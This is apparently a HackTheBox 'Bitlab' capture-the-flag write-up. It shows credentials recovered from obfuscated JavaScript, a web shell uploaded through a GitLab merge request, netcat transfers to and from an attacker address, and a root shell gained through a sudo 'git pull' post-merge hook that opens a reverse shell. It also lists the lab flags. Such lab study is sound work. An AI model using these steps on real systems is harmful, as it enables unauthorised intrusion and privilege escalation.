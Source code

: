 ```yaml
---
layout: post
title: "HackTheBox :: Bitlab"
categories: writeups
---
```


# HackTheBox :: Bitlab

## Initial Enumeration
Let's start with our usual nmap scan.
```
$ nmap -sCSV -p 1-10000 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 15:11 AEDT
Nmap scan report for 10.10.10.114
Host is up (0.057s latency).
Not shown: 9998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br />

Nothing too interesting here, apart from the fact that the HTTP server is running Gitlab. Seems like this might be another code-review box, nice. No obvious ways in, so let's fire up burpsuite and see if its spider picks up anything interesting.

So after about 30 seconds of clicking on links we land on an interesting one. The "help" link leads us to an open directory, with an interesting "bookmarks.html" file. Let's take a look.

## Initial Foothold
Hmm, it just seems to be a bunch of links. However, while most of the links go to outside URLs, the "Gitlab Login" link is interesting. It seems to be some poorly obfuscated javascript. So let's copy this javascript, clean it up a little and see what we can extract from it.
```javascript
function() {
    var _0x4b18 = [
        "\x76\x61\x6C\x75\x65",
        "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
        "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
        "\x63\x6C\x61\x76\x65",
        "\x75\x73\x65\/x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
        "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"
    ];

    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
<br />

So, the first thing that should jump out at you when looking at this should be the hex. Based on the range of characters it looks like valid ascii. So let's get decoding. We'll should also rename the array so it's a bit more readable, and take the variables out of the array in the `document` statements at the bottom.
```javascript
function() {
    var arr = [
        "value",
        "user_login"
        "getElementById",
        "clave",
        "user_password",
        "11des0081x"
    ];

    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
}
```
<br />

Nice. It's pretty obvious this is some sort of hacky login script that this dude "clave" wrote. Let's cut out all the crap so the javascript is readable (an unnecessary step, but indulge me).
```
function() {
    document.getElementById("user_login").value = "clave";
    document.getElementById("user_password").value = "11des0081x";
}
```
<br />

Awesome, now that we have some credentials we should use them. They're definitely for the gitlab login page. Let's give them a go and see what we can see.

Okay, so it seems like "clave" has access to two repositories, "Profile" and "Deployer". Let's give both of these a good read (commits, issues, pull requests, source code, etc) and see if we can't find anything interesting. 

So "Profile" is completely uninteresting apart from the fact that it has "Auto DevOps" enabled. "Deployer" is very interesting. It seems to be a git hook for the "Profile" repo. It looks like whenever a successful merge request goes through on "Profile", the updated "Profile" repo is pulled onto the server. So I think our first step should be finding where the profile page is located on the server. What's the bet that it's just at "/profile"?

Yup, that worked. Let's see if can get a shell uploaded. It should be as simple as uploading the shell to another branch on the "Profile" repo and submitting a merge request. Let's give this a go.

Shell successfully uploaded, merge request successful. Hopefully we should be able to see our shell in the profile directory. Yup, there it is.
```
p0wny@shell:…/html/profile# whoami
www-data
```
<br />

## Getting User & Root
Let's upload our enumeration script and see what we can find.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
```
p0wny@shell:/tmp# sh LinEnum.sh

...

-e [-] Super user account(s):
root
-e

...

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull

...
```
<br />

Huh, so it seems we can use `git pull` as sudo. We can leverage this, but it'll be a little weird. I hope you're familiar with git. I don't want to go into too much detail as to how this exploit works, but I'll give you an overview.
 1. You need to create two repositories: one is the remote (the "master") repository, and one is the "local" repository.
 2. You set the remote of the "local" repo to be the "master" repo you created earlier.
 3. You make changes in both repos, so when you use `git pull`, a merge is forced. 
 4. You can create a file "local/.git/hooks/post-merge", that gets executed when you `git pull`.

<br />

In the example `payload.tar`, the script that gets executed is a reverse shell. You can look throught the provided files to get a feel for it. 

We upload our payload to the server using netcat.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > payload.tar
```
```
$ nc -lv -p 4444 < payload.tar
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
<br />

Next we unpack it and execute `sudo git pull`. Remember we have to have netcat running on our end to receive the reverse shell.
```
p0wny@shell:/tmp# tar xf payload.tar
p0wny@shell:/tmp# cd payload/payload
p0wny@shell:…/payload/payload# sudo git pull
```
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 59150
# /bin/bash
/bin/bash
root@bitlab:/tmp/payload/payload#
```
<br />

Awesome. Now we can get the root and user flags.
```
root@bitlab:/# cat /home/clave/user.txt
cat /home/clave/user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```
```
root@bitlab:/# cat /root/root.txt
cat /root/root.txt
8d4cc131757957cb68d9a0cddccd587c
```
<br />

## Lessons Learned
 * Git hooks can be leveraged to gain privilege escalation / command execution.
 * Open directories can leak sensitive information.
 * Always enumerate for directories (dirbuster would have found both the profile page and the open help directory, we got lucky).



